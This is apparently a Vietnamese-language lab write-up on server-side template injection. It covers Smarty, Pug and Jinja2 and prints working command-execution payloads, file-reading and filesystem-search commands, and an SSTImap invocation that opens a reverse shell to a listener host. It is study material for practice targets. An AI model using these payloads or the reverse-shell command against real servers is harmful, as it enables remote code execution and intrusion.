# **Server-side Template Injection**
## **1. SSTI Overview**
**Server-Side Template Injection** (*SSTI*) là một lỗ hổng xảy ra khi đầu vào của người dùng được tích hợp một cách không an toàn vào mẫu phía máy chủ, cho phép kẻ tấn công chèn và thực thi mã tùy ý trên máy chủ

**Core Concepts of SSTI**: 
- **Dynamic Content Generation**: template engine thực hiện thay thế chỗ trống bằng dữ liệu thực sự, cho phép trang web gen ra dữ liệu động
- **User Input as Template Code**: dữ liệu người dùng nhập vào được coi là một phần của template cũng là nguyên nhân dẫn đến **SSTI**



Tác động của SSTI:
- Đọc và sửa file trên server
- Thực thi lệnh hệ điều hành
- Truy cập những data nhạy cảm

## **2. Template Engine**
Template Engine là một "thiết bị" có thể giúp ta tạo ra những trang web động

### **Cách hoạt động:**
- Template: Engine của user sẽ thực hiện tạo ra một bản tiền thiết kế với "khoảng trống"
- User input: Engine nhận được input từ người dùng và lưu trữ nó như một biến
- Combination: Engine thực hiện ghép dữ liệu để thay thế khoảng trống bằng dữ liệu thực sự
- Output: Engine sẽ tạo ra trang web cuối cùng với thông tin người dùng nhập vào

**Các template phổ biến**: 
- Python: Jinja2
- PHP: Twig
- Node.js: Pug/Jade

### **How Template Engines Parse and Process Inputs**

Template thực chất là một file gồm những nội dung tĩnh, kết hợp với cú pháp của nội dung động, khi template engine hoạt động, nó thay thế dữ liệu thực sự vào những ô trống

```python
from jinja2 import Template

hello_template = Template("Hello, {{ name }}!")
output = hello_template.render(name="World")
print(output)
```

biến `name` ở đây là ô trống còn `World` là dữ liệu được truyền vào thực sự

### **Determining the Template Engine**
- **Jinja2/Twig**: hai template engine này có cú pháp tương tự như nhau, ta cần thực hiện kiểm tra khả năng xử lí biểu thức,; Ví dụ `{{7*7}}` sẽ trả về kết quả là `49` thay vì chuỗi biểu thức



- **Jade/Pug**: biểu thức được thực hiện nằm trong dấu `#{}`



## **3. PHP - Smarty**
Biểu thức của Smarty được đặt trong dấu `{}`, thực hiện nhập `{7*7}`



Kết quả là ta nhận được giá trị của biểu thức là `49`\
Trong PHP có hàm `system("COMMAND")` dùng để thực hiện câu lệnh hệ điều hành, ta thực hiện lệnh `ls` bằng `{system("ls")}`



Thực hiện đọc nội dung của file {system("cat 7c45b2d3a741398826f497d58b73a401.txt")}



## **4. NodeJS - Pug**
- JavaScript Interpolation: biểu thức được biểu diễn trong dấu `#{}`
- Default Escaping: mặc định thì những kí tự đặc biệt HTML như `<`, `>`, ... đều bị encode thành HTML, nhưng nếu nhét chúng trong `!{}` thì nó lại không bị escape

-----
**Practice**

Web cho một ô input để điền vào, sau đó sẽ thực hiện in ra màn hình, ta nhập input `#{7*7}`



Và nhận được kết quả là `49`, ta sẽ sử dụng payload `#{root.process.mainModule.require('child_process').spawnSync('ls').stdout}` để thực hiện lệnh `ls`
- `root.process`: truy cập vào đối tượng `process` chung từ Node.js trong template
- `mainModule.require('child_process')`: yêu cầu mô-đun `child_process` một cách linh hoạt, bỏ qua các hạn chế tiềm ẩn có thể ngăn cản việc đưa nó vào thường xuyên
- `spawnSync('ls')`: thực thi lệnh `ls`
- `.stdout`: đưa kết quả ra `stdout`

> Lưu ý: muốn chạy `ls -lah` thì payload phải là `#{root.process.mainModule.require('child_process').spawnSync('ls', ['-lah']).stdout}`



Ta thấy có file `7f58571b42d8c477a2f3efa69a681ac3.txt` có thể chứa flag, thực hiện câu lệnh `cat` bằng payload `#{root.process.mainModule.require('child_process').spawnSync('cat', ['7f58571b42d8c477a2f3efa69a681ac3.txt']).stdout}`



## **5. Python - Jinja2**
Biểu thức được bọc bên trong `{{}}`

-----
**Practice**

Ta xác nhận lỗ hổng bằng `{{7*7}}`



Ta có thể sử dụng payload `{{"".__class__.__mro__[1].__subclasses__()[157].__repr__.__globals__.get("__builtins__").get("__import__")("subprocess").check_output("ls")}}` để thực hiện lệnh `ls`
- `""`: Là một chuỗi rỗng Python. Người ta bắt đầu từ một object có sẵn để không cần truy cập trực tiếp tới các biến đặc biệt
- `"".__class__`: Lấy class của chuỗi ví dụ `str`
- `"".__class__.__mro__`: **Method Resolution Order**, tức thứ tự Python tìm class cha khi resolve method/attribute
- `.__mro__[1]`: lấy phần tử thứ 2 `object`
- `object.__subclasses__()`: Python cho phép lấy danh sách các class kế thừa trực tiếp từ object, Nó có thể chứa rất nhiều class
- `.__subclasses__()[157]`: nghĩa là lấy class ở vị trí `157`
> Điểm rất quan trọng: `157` không phải con số cố định. Vị trí `subclass` thay đổi tùy phiên bản Python, thư viện đã import và môi trường chạy. Payload này có thể hoạt động trong một lab nhưng thất bại ở máy khác

- `.__repr__`: ấy method `__repr__` của class vừa tìm được
- `.get("__builtins__")`: từ global dictionary đó lấy `__builtins__` - cung cấp các built-in của Python, ví dụ về mặt khái niệm `len`, `print`, `open`, `__import__`,...
- `.get("__import__")`: để lấy built-in function `__import__`
- `.get("__import__")("subprocess")`: = `import subprocess`
- `.check_output("ls")`: Nó chạy executable `ls`, đợi process hoàn thành rồi lấy standard output



Kết quả là ta nhận được danh sách file\
Ta thực hiện đọc file bằng payload `{{"".__class__.__mro__[1].__subclasses__()[157].__repr__.__globals__.get("__builtins__").get("__import__")("subprocess").check_output(['cat', '5d8bea6df83cbb6767a235c4ba54933b.txt'])}}`



## **6. Automation the Exploitation**
Sử dụng SSTImap để khai thác

```bash
python3 sstimap.py -X POST -u 'http://ssti.thm:8002/mako/' -d 'page='
```

> `page` là tham số mà gửi payload lên



Ta có thể thực hiện reverse shell nếu có thể bằng tham số `-R`\
Trước tiên phải mở cổng lắng nghe

```bash
nv -lvnp 4444
```

Sau đó tạo reverse shell bằng SSTImap

```bash
python3 sstimap.py -X POST -u 'http://10.48.166.156:8002/jinja2/' -d 'page=' -R 192.168.176.80 4444
```



## **7. Extra-Mile Challange**
Web cho thông tin đăng nhập vào tài khoản của **admin** là `admin/admin`



Sau khi quan sát request, ta có thấy được web chạy bằng **PHP**, vì vậy ta sẽ thực hiện tìm kiếm STTI bằng payload của **PHP**

Sau một hồi tìm kiếm thì ta tìm được lỗi xảy ra ở đường dẫn `/admin/forms/edit/index.php` và nơi xảy ra là ô nhập dữ liệu `View Field Group`



Khi ta nhập `{7*7}` thì ở ô input đã hiện ra `49`, từ đó có thể xác định được lỗ hổng\
Ta thực hiện lệnh `ls` bằng payload `{system('ls')}`



Thực hiện quan sát request bằng Burp ta nhận được kết quả của lệnh `ls`\
Đề bài nói flag ở file `.txt`, nên ta thực hiện tìm những file `.txt` bằng payload `{system('find / -type f -name "*.txt" -printf "%f\n" 2>/dev/null')}`



Kết quả là ta nhận được một file khá lại, thực hiện đọc file đó bằng `{system('cat /var/www/html/105e15924c1e41bf53ea64afa0fa72b2.txt')}`




